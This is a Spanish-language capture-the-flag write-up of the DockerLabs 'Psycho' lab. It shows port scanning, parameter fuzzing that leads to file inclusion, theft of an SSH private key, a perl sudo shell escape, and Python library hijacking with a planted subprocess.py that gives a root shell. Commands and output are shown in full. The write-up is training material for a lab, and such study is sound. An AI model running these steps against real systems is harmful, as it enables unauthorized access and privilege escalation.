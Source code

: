```yaml
---
title: DockerLabs - Psycho
summary: "Write-up del laboratorio Psycho de DockerLabs"
author: elcybercurioso
date: 2025-10-27 13:00
categories: [Post, DockerLabs]
tags: [fácil, parameter bruteforce, directory path traversal, lfi, sudo, python library hijacking]
media_subpath: "/assets/img/posts/dockerlabs_psycho"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 00:40 GMT
Initiating ARP Ping Scan at 00:40
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:40, 0.09s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 00:40
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:40, 10.21s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000056s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.48 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65556 (2.626MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs]
└─$ nmap -sCV -p22,80 172.17.0.2                             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 00:40 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38:bb:36:a4:18:60:ee:a8:d1:0a:61:97:6c:83:06:05 (ECDSA)
|_  256 a3:4e:4f:6f:76:f2:ba:50:c6:1a:54:40:95:9c:20:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: 4You
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.02 seconds
```

## análisis

Revisando la pagina principal del puerto 80, encontramos un error que destaca al final de la misma:

![Desktop View](/20251027015538.webp){: width="972" height="589" .shadow}

Posiblemente reaccione en base a si se le ha pasado un cierto parámetro a la URL. Por ello, buscamos si con alguna cadena responde de otra manera:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Psycho]
└─$ wfuzz -c --hc=404 --hh=2596 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2?FUZZ=test" -t 200
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2?FUZZ=whoami/
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                             
=====================================================================

000005155:   200        62 L     166 W      2582 Ch     "secret"
```

En este caso, con el parámetro `secret` vemos que podemos llegar a leer fichero del servidor:

![Desktop View](/20251027015432.webp){: width="972" height="589" .shadow}

![Desktop View](/20251027015621.webp){: width="972" height="589" .shadow}

## explotación

Buscamos ficheros que nos puedan dar acceso al laboratorio, y encontramos que el usuario `vaxei` tiene en su directorio una clave privada, la cual podemos usar para acceder por SSH:

![Desktop View](/20251027125955.webp){: width="972" height="589" .shadow}

Guardamos la clave `id_rsa` en un fichero, le damos permisos 600 (`rw-------`, lectura y escritura por parte del propietario del fichero únicamente), y nos conectamos:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Psycho]
└─$ ssh -i id_rsa vaxei@172.17.0.2
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.16.8+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sat Aug 10 02:25:09 2024 from 172.17.0.1
vaxei@88b8cebfc8cd:~$ whoami
vaxei
```

## escalada de privilegios

Listando los permisos SUDO del usuario vemos que puede ejecutar `perl` con los permisos del usuario `luisillo`:

```bash
vaxei@88b8cebfc8cd:~$ sudo -l
Matching Defaults entries for vaxei on 88b8cebfc8cd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on 88b8cebfc8cd:
    (luisillo) NOPASSWD: /usr/bin/perl
```

En [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo) vemos que podemos obtener una consola como otro usuario si tenemos permisos SUDO usando `perl`:

![Desktop View](/20251027020757.webp){: width="972" height="589" .shadow}

Ejecutamos la instrucción indicada, y ya tendríamos acceso como el usuario `luisillo`:

```bash
vaxei@88b8cebfc8cd:~$ sudo -u luisillo perl -e 'exec "/bin/bash";'
luisillo@88b8cebfc8cd:/home/vaxei$ whoami
luisillo
```

Revisamos los permisos SUDO de este usuario también, y vemos que en este caso, lo que puede hacer es ejecutar con `python` un cierto script:

```bash
luisillo@88b8cebfc8cd:/home/vaxei$ sudo -l
Matching Defaults entries for luisillo on 88b8cebfc8cd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 88b8cebfc8cd:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

El contenido del script es:

```python
luisillo@88b8cebfc8cd:/opt$ cat paw.py 
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
```

Vemos que al ejecutarlo nos da un cierto error, el cual nos da una pista de como podemos obtener acceso como `root`:

```bash
luisillo@88b8cebfc8cd:/home/vaxei$ sudo /usr/bin/python3 /opt/paw.py
Ojo Aqui
Processed data: tHIS IS SOME DUMMY DATA THAT NEEDS TO BE PROCESSED.
Useless calculation result: 499999500000
Traceback (most recent call last):
  File "/opt/paw.py", line 41, in <module>
    main()
  File "/opt/paw.py", line 38, in main
    run_command()
  File "/opt/paw.py", line 30, in run_command
    subprocess.run(['echo Hello!'], check=True)
  File "/usr/lib/python3.12/subprocess.py", line 548, in run
    with Popen(*popenargs, **kwargs) as process:
         ^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.12/subprocess.py", line 1026, in __init__
    self._execute_child(args, executable, preexec_fn, close_fds,
  File "/usr/lib/python3.12/subprocess.py", line 1955, in _execute_child
    raise child_exception_type(errno_num, err_msg, err_filename)
FileNotFoundError: [Errno 2] No such file or directory: 'echo Hello!'
```

Sabemos que podemos llegar a ver el listado de ubicaciones donde se buscan las librerías que usa `python` al ejecutar un script de la siguiente manera:

```bash
luisillo@88b8cebfc8cd:/opt$ python3 -c "import sys; print(sys.path)"
['', '/usr/lib/python312.zip', '/usr/lib/python3.12', '/usr/lib/python3.12/lib-dynload', '/usr/local/lib/python3.12/dist-packages', '/usr/lib/python3/dist-packages']
```

Debido a que la primera ubicación por defecto es en la que nos encontramos en el momento de ejecutar un script, podemos llegar a efectuar lo que se conoce como `Python library hijacking`, donde el objetivo es crear un fichero que contenga las instrucciones que queramos, pero que se llame igual a una librería oficial de `python`:

```bash
luisillo@88b8cebfc8cd:/opt$ cat subprocess.py 
import os; os.system("/bin/bash")
```

De esta forma, tras ejecutar el comando de los permisos SUDO, obtendríamos una consola como el usuario `root`:

```bash
luisillo@88b8cebfc8cd:/opt$ sudo /usr/bin/python3 /opt/paw.py
root@88b8cebfc8cd:/opt# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>
